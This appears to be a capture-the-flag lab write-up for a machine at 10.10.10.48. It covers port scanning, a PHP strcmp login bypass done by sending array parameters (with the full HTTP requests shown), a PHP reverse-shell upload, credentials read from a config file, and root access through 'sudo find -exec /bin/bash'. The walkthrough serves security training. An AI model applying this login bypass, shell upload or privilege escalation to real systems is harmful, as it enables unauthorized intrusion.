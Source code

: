 ![[Pasted image 20210427100003.png]]

Starting with a basic nmap scan 

`nmap -sC -sV 10.10.10.48`

![[Pasted image 20210427100403.png]]

We have port 22 and port 80 open 

![[Pasted image 20210427100443.png]]

We have a login.php page 

![[Pasted image 20210427100629.png]]

We can see that after running dirbuster scan we see that we have /login directory 

![[Pasted image 20210427100901.png]]

![[Pasted image 20210427100931.png]]

The config.php is an empty file 

In the login.php.swp file we fin that there is a string compare function in php that is running in the baskground (strcmp)

The way to bypass it is ,
It expects the user to give a string and if the user instead gives an array the output is zero 

![[Pasted image 20210427102204.png]]

Here if the username and password gives back zero in the output we get a login successful message 

So what we do is intercept the login request in burp 

When the application expects the staring value for the variables 'username' and 'password' 

![[Pasted image 20210427102527.png]] - Original Request

```
POST /login/login.php HTTP/1.1
Host: 10.10.10.48
Content-Length: 27
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.10.48
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.48/login/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=j0rp456vmh0d6ieo427grq8bsr
Connection: close

username=user&password=pass
```

![[Pasted image 20210427102639.png]] - Modified Request 

```
POST /login/login.php HTTP/1.1
Host: 10.10.10.48
Content-Length: 27
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.10.48
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.48/login/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=j0rp456vmh0d6ieo427grq8bsr
Connection: close

username[]=user&password[]=pass
```

Which gives us the upload.php page where we can upload the files

![[Pasted image 20210427102740.png]]

![[Pasted image 20210427103024.png]]

![[Pasted image 20210427103046.png]]

We know that the files are being uploaded to a directory named  _uploaded

`http://10.10.10.48/_uplpaded/reverse-1.php`

Going to the above url we can execute the php file and get a reverse shell

![[Pasted image 20210427103405.png]]

![[Pasted image 20210427103420.png]]

We get a shell as the www-data

There was a config.php file which was not visible on the frontend , we can access it through the user www-data

![[Pasted image 20210427103853.png]]

We get the admin username and password 
But the password is of the user john 

username : `john`

password : `thisisagoodpassword`

![[Pasted image 20210427104119.png]]

We get the user.txt file 

It turns out that we can run find command as the root user 
So we can run the command and break out of the shell

`sudo find user.txt -exec "whoami" \;`

![[Pasted image 20210427104609.png]]

by running the command 

`sudo find user.txt -exec "/bin/bash" \;`

![[Pasted image 20210427105509.png]]

We get the root flag

